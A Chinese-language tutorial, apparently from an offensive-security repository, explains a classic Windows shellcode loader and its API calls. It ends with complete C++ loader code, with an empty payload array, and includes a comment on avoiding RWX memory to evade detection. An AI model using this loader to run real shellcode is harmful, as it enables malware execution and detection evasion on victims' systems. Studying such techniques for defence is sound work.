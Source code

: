 # Common Shellcode Loader

​	有许多方法可以加载shellcode，但通常的流程包括三个步骤：

1. 申请内存

2. 将shellcode复制到内存中

3. 执行shellcode

   

   本小结不会详细列举所有的shellcodeloader，而是专注于深入讲解最经典的执行方式。



### 远程线程执行shellcode

#### 核心函数

**VirtualAlloc**

https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc

`VirtualAlloc` 函数用于在进程的虚拟地址空间中分配内存，并返回分配的内存的起始地址。以下是每个参数的含义：

```c++
LPVOID VirtualAlloc(
  LPVOID lpAddress, //要分配的内存区域的首选基地址。
  SIZE_T dwSize, //要分配的内存区域的大小，以字节为单位。 
  DWORD  flAllocationType, //指定内存分配类型的一组标志。
  DWORD  flProtect //指定内存页面的保护属性的一组标志。
);
```



**RtlMoveMemory**

https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory

`RtlMoveMemory` 函数是 Windows API 中的一个函数，用于将内存块中的数据从一个位置复制到另一个位置。

```c++
VOID RtlMoveMemory(
  VOID UNALIGNED *Destination, //这是一个指向目标内存块的指针，表示要将数据复制到的位置
  const VOID UNALIGNED *Source, //这是一个指向源内存块的指针，表示要从哪里复制数据
  SIZE_T         Length //这是要复制的数据的字节数
);
```

函数的作用是将源内存块中的数据复制到目标内存块中，长度为 `Length` 字节。这个函数类似于 `memcpy` 函数，但是在处理内存对齐方面更加灵活。



**VirtualProtect**

https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect

`VirtualProtect` 函数是 Windows API 中的一个函数，用于更改指定内存区域的访问权限。

```c++
BOOL VirtualProtect(
  LPVOID lpAddress,	//指向要修改保护属性的内存区域的起始地址的指针。
  SIZE_T dwSize, //要修改保护属性的内存区域的大小，以字节为单位。
  DWORD  flNewProtect, //要设置的新的访问权限和页面属性的组合。
  PDWORD lpflOldProtect //指向变量的指针，用于存储之前的访问权限和页面属性。
);
```

函数的作用是将指定内存区域的访问权限和页面属性设置为新的值，并将之前的值存储在指定的变量中。



**CreateThread**                                                                                        

https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread

`CreateThread` 函数是 Windows API 中的一个函数，用于在当前进程中创建一个新的线程。

```c++
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```



#### 代码讲解

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
  DWORD oldprotect = 0;

	//shellcode在main函数内，存储在pe结构的sections table中的.text部分
	unsigned char payload[] = {};
	unsigned int payload_len = sizeof(payload);
	
	// 使用VirtualAlloc申请一个可读可写的内存，这里没有申请执行权限是为了防止出现RWX权限的敏感内存
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// 将shellcode复制到申请的内存中，这里还可以用memcpy等
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// 使用VirtualProtect添加执行权限
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// 如果返回正常，创建线程执行shellcode
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

